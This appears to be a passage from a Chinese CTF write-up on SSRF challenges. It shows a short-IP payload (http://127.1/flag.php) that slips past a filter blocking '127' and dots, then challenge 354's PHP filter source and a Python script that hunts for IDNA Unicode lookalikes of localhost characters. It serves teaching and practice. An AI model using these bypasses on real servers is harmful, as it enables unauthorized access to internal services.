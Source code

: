 > ?> hacker
> ```
>
> 

把127、.0、.、。过滤了
转进制[IP地址进制转换 (520101.com)](https://tool.520101.com/wangluo/jinzhizhuanhuan/)或者127.1都可

```
url=http://127.1/flag.php
```

## 354

> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $x=parse_url($url);
> if($x['scheme']==='http'||$x['scheme']==='https'){
> if(!preg_match('/localhost|1|0|。/i', $url)){
> $ch=curl_init($url);
> curl_setopt($ch, CURLOPT_HEADER, 0);
> curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
> $result=curl_exec($ch);
> curl_close($ch);
> echo ($result);
> }
> else{
>     die('hacker');
> }
> }
> else{
>     die('hacker');
> }
> ?>
> ```
>
> 

羽师傅说预期解是用脚本替换localhost的字符，但是服务器不支持

```python
for i in range(128,65537):    
    tmp=chr(i)    
    try:        
        res = tmp.encode('idna').decode('utf-8')        
        if("-") in res:            
            continue        
        print("U:{}    A:{}      ascii:{} ".format(tmp, res, i))    
    except:        
        pass

```
